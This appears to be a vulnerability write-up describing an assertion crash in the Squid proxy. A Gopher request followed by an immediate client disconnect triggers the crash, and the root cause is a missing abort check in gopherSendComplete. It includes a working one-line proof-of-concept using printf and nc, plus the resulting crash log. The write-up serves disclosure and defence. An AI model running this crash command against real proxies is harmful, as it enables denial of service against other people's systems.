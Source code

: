 
# Gopher Assertion Crash

Note: This issue is similar to that of `RFC 2141 / 2169 (URN) Assertion Crash`, and thus a detailed description is not given. However, this issue pertains to how Squid handles sending of Gopher requests to Gopher servers.

## The Issue
When a client opens a connection with Squid and subsequently closes it, its so-called 'store entry' is marked as 'pending' (STORE_PENDING) and 'completed' (STORE_OK) respectively. If an attempt is subsequently made to write to that store entry after it has been set to STORE_OK, Squid will crash with an assertion, as it generally means something is 'wrong'.

Due to Squid marking a store as 'completed' upon a client disconnecting, it is possible to trick Squid into requesting a Gopher page, then quickly disconnecting, resulting in a write to a store which has been marked as STORE_OK.

In theory, this issue could affect HTTP too, however there are protections in place within the HTTP end-points to stop the processing of asynchronous replies when an entry has been aborted (such as due to a client closing the connection before the reply has been read) For example in `HttpStateData::readReply` and `HttpStateData::processReplyBody`, there is a check before the entry writing:
```
    if (EBIT_TEST(entry->flags, ENTRY_ABORTED)) {
        abortTransaction("store entry aborted while reading reply");
        return;
    }
```

In the case of Gopher requests, there is also this protection in place for when a *reply* is received; aka in the function `gopherReadReply`.
However, this protection is not in place in the `gopherSendComplete` function, which is called when a client initially connects. This means that a client can send a Gopher request to Squid, and instantly close their connection, to cause an assertion.

Therefore, it is as simple as running the following command to crash Squid:
```
printf "GET gopher://gopher.floodgap.com/ HTTP/1.1\r\n\r\n" | timeout 0.1 nc localhost 3128
```
This will close the connection after 0.1 seconds, which will result in the following assertion/crash:

```
2021/04/18 04:13:45.863| 88,3| client_side_reply.cc(1081) storeOKTransferDone: storeOKTransferDone  out.offset=3628 objectLen()=3903 headers_sz=275
2021/04/18 04:13:45.863| 5,3| IoCallback.cc(112) finish: called for conn36 local=127.0.0.1:3128 remote=127.0.0.1:57126 FD 20 flags=1 (-10, 0)
2021/04/18 04:13:45.863| 33,2| client_side.cc(942) kick: conn36 local=127.0.0.1:2222 remote=127.0.0.1:57126 flags=1 Connection was closed
2021/04/18 04:13:45.864| 20,3| store.cc(486) unlock: ClientHttpRequest::loggingEntry unlocking key 1100000000000000DDAA030000000000 e:=sXIV/0x60c000073780*1
2021/04/18 04:13:45.864| 90,3| store_client.cc(805) storePendingNClients: storePendingNClients: returning 0
2021/04/18 04:13:45.864| 20,3| store.cc(1178) release: 0 e:=sXIV/0x60c000073780*0 1100000000000000DDAA030000000000
2021/04/18 04:13:45.864| 20,3| store.cc(400) destroyMemObject: 0x61300001d540 in e:=sXIV/0x60c000073780*0
2021/04/18 04:13:45.864| 20,3| MemObject.cc(108) ~MemObject: MemObject destructed, this=0x61300001d540
2021/04/18 04:13:45.864| 20,3| store.cc(418) destroyStoreEntry: destroyStoreEntry: destroying 0x60c000073788
2021/04/18 04:13:45.864| 20,3| store.cc(400) destroyMemObject: 0 in e:=sXIV/0x60c000073780*0
2021/04/18 04:13:45.864| 85,3| client_side_request.cc(118) ~ClientRequestContext: ClientRequestContext destructed, this=0x60b00008b7f8
2021/04/18 04:13:45.865| 20,3| store.cc(1763) replaceHttpReply: StoreEntry::replaceHttpReply: gopher://gopher.floodgap.com/
2021/04/18 04:13:45.866| assertion failed: store.cc:832: "store_status == STORE_PENDING"
```
